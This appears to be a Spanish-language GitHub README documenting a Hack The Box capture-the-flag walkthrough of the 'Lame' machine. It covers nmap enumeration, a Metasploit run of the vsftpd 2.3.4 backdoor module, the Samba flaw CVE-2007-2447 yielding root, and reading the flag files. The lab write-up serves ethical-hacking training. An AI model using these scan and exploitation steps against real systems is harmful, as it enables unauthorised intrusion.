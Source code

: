 ```yaml
---

# 🧠 Lame - Hack The Box (HTB)

> Análisis técnico, didáctico y documentado por **r4ms4nt**.

📅 **Fecha:** Mayo 2025
🎯 **Objetivo:** Reproducir y documentar la resolución de la máquina *Lame*, la primera máquina publicada por Hack The Box.

---
```


## 🎯 Objetivos del proyecto

* Desarrollar una metodología práctica de hacking ético.
* Aplicar técnicas reales de reconocimiento, enumeración y explotación.
* Practicar documentación profesional para entornos de certificación (OSCP, eJPT…).

---

## 📁 Estructura del repositorio

```bash
.
├── capturas
├── nmap
├── LICENSE
├── README.md
├── gitignore
├── lame_htb_manual.md
└── tree_lame.txt
```

📄 Ver estructura completa: [tree\_lame.txt](tree_lame.txt)

---

## 🔍 Task 1: How many of the nmap top 1000 TCP ports are open?

🎯 **Objetivo:** Identificar puertos TCP abiertos más comunes.

✅ **Comando ejecutado:**

```bash
nmap -sS -Pn --top-ports 1000 -oA nmap/top1000_tcp 10.129.56.2
grep open nmap/top1000_tcp.nmap
```

🔎 **Resultado:**

* Puertos abiertos: `21`, `22`, `139`, `445`
* Total: **4**

📸 ![Captura](capturas/nmap_top1000.png) | ![grep open](capturas/grep_nmap.png)

---

## 🔍 Task 2: What version of VSFTPd is running on Lame?

🎯 **Objetivo:** Determinar la versión del servicio FTP en el puerto 21.

✅ **Comando ejecutado:**

```bash
nmap -sV -p21 -oA nmap/ftp_version 10.129.56.2
```

🔎 **Resultado:**

* Servicio: **vsFTPd 2.3.4**

📸 ![Captura](capturas/nmap_port_21.png)

---

## 🔍 Task 3: ¿Funciona el famoso exploit de VSFTPd 2.3.4?

🎯 **Objetivo:** Verificar si la vulnerabilidad conocida de backdoor está activa.

✅ **Comando ejecutado (en Metasploit):**

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.129.56.2
run
```

🔎 **Resultado:**

* El exploit se ejecuta pero **no devuelve sesión**.

📸 ![msfconsole](capturas/msfconsole1.png) | ![Resultado](capturas/msfconsole2.png) | ![HTB Confirmación](capturas/Task_3.png)

---

## 🔍 Task 4: ¿Qué versión de Samba corre en Lame?

🎯 **Objetivo:** Enumerar la versión del servicio Samba en los puertos 139 y 445.

✅ **Comando ejecutado:**

```bash
nmap -sV -Pn -p139,445 --script=smb-protocols,smb-os-discovery,smb2-security-mode,smb2-time -oA nmap/smb_version 10.129.56.2
```

🔎 **Resultado:**

* Versión detectada: **Samba 3.0.20**

📸 ![Captura](capturas/nmap_smb.png)

---

## 🔍 Task 5: ¿Qué CVE del 2007 permite RCE en esta versión de Samba?

🎯 **Objetivo:** Identificar una vulnerabilidad histórica en la versión de Samba.

✅ **Referencia:**

* `CVE-2007-2447`
* Condición: uso de `username map script` en `smb.conf`

📸 ![HTB Confirmación](capturas/Task_5.png)

---

## 🔍 Task 6: ¿Qué usuario obtiene shell al explotar CVE-2007-2447?

🎯 **Objetivo:** Determinar el contexto del shell recibido tras la explotación.

✅ **Resultado:**

* Usuario: **root**

📸 ![HTB Confirmación](capturas/Task_6.png)

---

## 🔍 Task 7: Obtener la flag del usuario `makis`

🎯 **Objetivo:** Localizar y leer el archivo `user.txt`.

✅ **Comandos ejecutados:**

```bash
cd /home/makis
ls -la
cat user.txt
```

📸 ![Flag Usuario](capturas/Flag_1.png)

---

## 🔍 Task 8: Obtener la flag del usuario `root`

🎯 **Objetivo:** Escalar privilegios y leer `/root/root.txt`

✅ **Comandos ejecutados:**

```bash
cd /root
ls -la
cat root.txt
```

📸 ![Flag Root](capturas/Flag_2.png)

---

## 🔍 Task 9: ¿Qué impide la conexión a ciertos puertos visibles con `netstat`?

🎯 **Objetivo:** Explicar por qué no todos los puertos escuchando son accesibles desde fuera.

✅ **Comando ejecutado:**

```bash
netstat -tnlp
```

🔎 **Resultado:**

* Causa: **firewall**

📸 ![HTB Confirmación](capturas/Task_9.png)

---

## 🔍 Task 10: ¿Qué puerto escucha cuando se activa el backdoor de VSFTPd?

🎯 **Objetivo:** Confirmar el comportamiento del backdoor.

✅ **Resultado:**

* Puerto: **6200**

📸 ![HTB Confirmación](capturas/Task_10.png)

---

## 🔍 Task 11: ¿El puerto 6200 escucha realmente en Lame?

🎯 **Objetivo:** Verificar con netstat si efectivamente se activa el puerto.

✅ **Comando ejecutado:**

```bash
ss -tnlp | grep 6200
```

🔎 **Resultado:**

* Sí, escucha.

📸 ![HTB Confirmación](capturas/Task_11_Final.png)

---

